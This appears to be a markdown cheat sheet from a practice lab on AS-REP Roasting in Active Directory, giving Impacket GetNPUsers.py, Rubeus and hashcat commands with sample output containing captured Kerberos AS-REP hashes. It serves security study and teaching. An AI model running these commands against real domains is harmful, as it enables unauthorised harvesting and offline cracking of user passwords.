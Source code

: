 **AS-REP Roasting**

Is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "**Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![81bf1dad6425f8f06b0026f4e748f193](https://github.com/user-attachments/assets/2ccdf90a-420f-45dd-8c55-8f1142276804)


**First method**


We should do some recon to obtain the AD users and collect them in a file ```users.txt```:
```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```
 ```
GetNPUsers.py -dc-ip <DomainController_IP> <domain>/<user> -usersfile <path_to_users_file>
```
**ex**
```
GetNPUsers.py -dc-ip 10.10.73.127 thm.red/thm -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:269af6bae34fa24f66669f64454eb290$95c86c6aad2085a6f0263c92587a1bee24d04e13e74e5c510d7b17287ce772553f28f5fe1306cda7ba06db1c0fede4c09c8e3e8fec0bebfd85c47ded661f54c686216c296ae99d6b389eaa7bbb1b12b85347fee45574d39a4ca2e5f157bb732472d4614787e4204ac82adcee530d4a6a9ab2da7775d06922f8650468826c329bbf4e86c9f6be04d5ff54790a098a09bbc2500659c834c96e4a90ba6e042855eaa1672645f8620abea4f7fb43322624c6950b990fc247f08be8a098adf9920e22c5f7310fe7b710def9b071472c2440629bedc226dc6fadff2e20727bc467e543f6c8
[-] User CREDS-HARVESTIN$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```


The ```GetNPUsers.py``` is used to request Kerberos **TGTs** for user accounts that have the **"Do not require Kerberos preauthentication"**

<br>

**Second method**

```
Rubeus.exe asreproast /nowrap
```
the output will look like this:
```
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b5c8:9b6f:25dc:5bf6%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:AF01B8AF2BA0C81C0D438ACB15A2B476$F766A68EF45E9C5924B096B5B4B0916366763EA31A6301E8DD511ACA336D7E162F29D6703BE0489410EBAB6E2A94EC416F1CA0DBA2B71A42C35BB0D1113E07B81D5D8662BF8CE1BAD89B9B408AFFDD531F0C401101937F1C5E2526E44194BF8CDC1ACB18623D52B19E30AA1D14C15E97FB6B329B92726AC394E0373C090B4C32C1D1CEBA3014BF5B0126F3C014BD1CDED856EC99C26F5566C66488C355BA49E572D445C88C583CCBF7686514297ABCB546FA2C18D15CAC4459235D798A3950C88C3369ABF2991AAF5EAB9D2C03792108F328EC65358427D86E5C595E7F5CB61828EABA0A99FA33F0241C51607BB14F1F415EA655
```
**Cracking the AS-REP Hash:**

To crack the AS-REP hash, you can use Hashcat with the following command:
```
hashcat -m 18200 hash.txt /path/to/rockyou.txt
```





























